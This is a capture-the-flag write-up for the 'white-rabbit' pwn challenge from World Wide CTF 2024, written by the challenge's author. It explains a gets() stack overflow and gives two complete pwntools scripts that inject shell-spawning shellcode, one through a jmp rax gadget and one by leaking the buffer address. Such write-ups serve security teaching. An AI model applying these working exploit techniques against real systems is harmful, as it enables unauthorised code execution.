 +++
title = 'World Wide CTF 2024 - pwn/white-rabbit'
date = 2024-12-01T06:52:21-05:00
draft = false
+++

White Rabbit is a shellcode challenge I created for WWCTF 2024. I will walk you through the intended solution and share an very clever approach discovered by my teammate @Nosimue.


## Overview

We are given a binary (white_rabbit) and a remote netcat endpoint. The first step is to analyze the binary's protections useing `checksec`

```shell
[d@d-20tk001gus challs]$ checksec --file=white_rabbit
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Partial RELRO   No canary found   NX disabled   PIE enabled     No RPATH   No RUNPATH   31 Symbols	  No	0		2		white_rabbit
```

1. NX Disabled: Allows execution of injected shellcode.
2. PIE Enabled: The binary is loaded at a random address in memory.
3. No Canary: The binary does not use stack canaries, which are a protection against buffer overflow attacks.
4. ASLR Enabled: Stack and binary addresses are randomized.

Running the program locally:

```shell

  (\_/)
  ( •_•)
  / > 0x60f1f6156180

follow the white rabbit...
```

The program prints an address. Disassembling the binary in Ghidra reveals that the printed address is the address of the main function. Here's a look at main:

```c
undefined8 main(void)

{
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stdin,(char *)0x0,2,0);
  setvbuf(stderr,(char *)0x0,2,0);
  puts("\n  (\\_/)");
  puts(&DAT_0010200d);
  printf("  / > %p\n\n",main);
  puts("follow the white rabbit...");
  follow();
  return 0;
}
```

And the follow function:

```c
void follow(void)

{
  char local_78 [112];
  
  gets(local_78);
  return;
}

```
The vulnerability is in follow(), which uses gets() to read user input without bounds, making a buffer overflow possible. Our goal is to inject shellcode into the buffer and execute it. However, since the leaked address is not a stack address, we don't know where to jump to. We need to find a different way to execute our shellcode,

## Analyzing Input

Let's take a look at what happens to our input after gets() is called in follow() Attaching a debugger and setting a breakpoint after gets() and sending 'AAAAAAA' as input we see:

```shell
$rax   : 0x00007fffffffe150  →  "AAAAAAAA"
$rbx   : 0x00007fffffffe2f8  →  0x00007fffffffe6c1  →  "/home/d/Downloads/WWCTF24/challs/white_rabbit"
$rcx   : 0x00007ffff7f828e0  →  0x00000000fbad208b
$rdx   : 0x0
$rsp   : 0x00007fffffffe150  →  "AAAAAAAA"
$rbp   : 0x00007fffffffe1c0  →  0x00007fffffffe1d0  →  0x00007fffffffe270  →  0x00007fffffffe2d0  →  0x0000000000000000
$rsi   : 0x00007ffff7f82963  →  0xf84720000000000a ("\n"?)
$rdi   : 0x00007ffff7f84720  →  0x0000000000000000
$rip   : 0x000055555555517d  →  <follow+0014> nop
$r8    : 0x0
$r9    : 0x0
$r10   : 0x0
$r11   : 0x246
$r12   : 0x1
$r13   : 0x0
$r14   : 0x00007ffff7ffd000  →  0x00007ffff7ffe2e0  →  0x0000555555554000  →   jg 0x555555554047
$r15   : 0x0000555555557dd8  →  0x0000555555555110  →   endbr64
$eflags: [zero carry parity adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x33 $ss: 0x2b $ds: 0x00 $es: 0x00 $fs: 0x00 $gs: 0x00
```

The input buffer is pointed to by RAX after gets(). This makes sense as RAX is usually used to hold the return value of a functions. This means if we can find a jmp rax or call rax gadget in the binary, we can redirect execution to our shellcode in the buffer.

## Finding Gadgets with Ropper

Using ropper, we can search for a gadget to execute our shellcode:

```shell
[d@d-20tk001gus challs]$ ropper --file=white_rabbit --search "jmp rax"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: jmp rax

[INFO] File: white_rabbit
0x00000000000010bf: jmp rax;
0x00000000000010bf: jmp rax; nop dword ptr [rax]; ret;
0x0000000000001100: jmp rax; nop word ptr [rax + rax]; ret;
```

The jmp rax gadget at 0x10bf allows us to jump directly to the address stored in RAX — exactly what we need.

## Crafting the exploit:

1. Calculate Base Address: Since PIE is enabled, the binary is loaded at a randomized base address. We use the leaked address of main to compute the base address:
`elf.address  = int(p.recvuntil("\n").strip(), 16) - elf.sym.main`
2. Calculate Overflow Offset: The distance between the start of the buffer and RIP is 120 bytes.
3. Craft our shellcode: We could write our own, but pwncools shellcraft is very convinient :) 
4. Finally we build our payload: First our shellcode, then padding to instruction pointer, and then our jmp rax gadget.

Here is our final solve script:

```python
elf = context.binary = ELF('../white_rabbit',)
p = remote("whiterabbit.chal.wwctf.com", 1337)

jmp_rax = next(elf.search(asm('jmp rax')))

p.recvuntil(">");
elf.address  = int(p.recvuntil("\n").strip(), 16) - elf.sym.main

jmp_rax += elf.address

payload = asm(shellcraft.sh())
payload = payload.ljust(120, b'A')
payload += p64(jmp_rax)

p.sendline(payload)
p.interactive()
```

`wwf{jmp_d0wn_th3_r4bb1t_h0le_0caba44088}`



## Alternate Solution: Leaking Buffer Address 

During internal testing of this challenge, my teammate @Nosiume came up with a very clever solve that bypasses the need for a jmp rax gadget entirely by leaking the address of the buffer. Here's how it works:

After gets() in the follow() function, the address of the buffer is stored in RAX. By finding a code path that prints the contents of RAX, we can leak the buffer address to bypass ASLR. This instuction within main moves the contents of rax to rsi.

` 0x00000000000011d1 <+45>:	mov    rsi,rax`

At this point:
   - rax holds the address of our input buffer.
   - rsi (set by mov rsi, rax) will be passed to printf() as the second argument during a subsequent call.

If we redirect execution to this instruction, the buffer address will be printed during the next printf() call. Afterward, the program continues to the follow() function, where we can use the leaked address for a direct return to our shellcode.

Here is his final solve script.



```python
#!/usr/bin/env python3

from pwn import *

context.log_level = 'error'
context.binary = elf = ELF('./white_rabbit')
context.terminal = ['alacritty', '-e']

gs = """
b *follow+26
continue
"""
io = gdb.debug(elf.path, gdbscript=gs) if args.GDB else process()

def exploit():
    context.log_level = 'info'

    io.recvuntil(b'> ')
    elf.address = int(io.recvline(), 16) - elf.sym.main

    info("elf base : " + hex(elf.address))
    info("target : " + hex(elf.address + 0x11d1))

    offset = 120
    payload = b'A'*offset + pack(elf.address + 0x11d1)

    io.sendlineafter(b'...\n', payload)
    io.recvuntil(b'> ')

    shellcode_addr = int(io.recvline(), 16)
    payload = flat({
        0: [ asm(shellcraft.amd64.linux.sh()) ],
        offset: [ shellcode_addr ]
    })

    io.sendlineafter(b'...\n', payload)
    io.interactive()

if __name__ == "__main__":
    exploit()
```

If you came up with a unique solve or have feedback on the challenge, I'd love to hear from you.
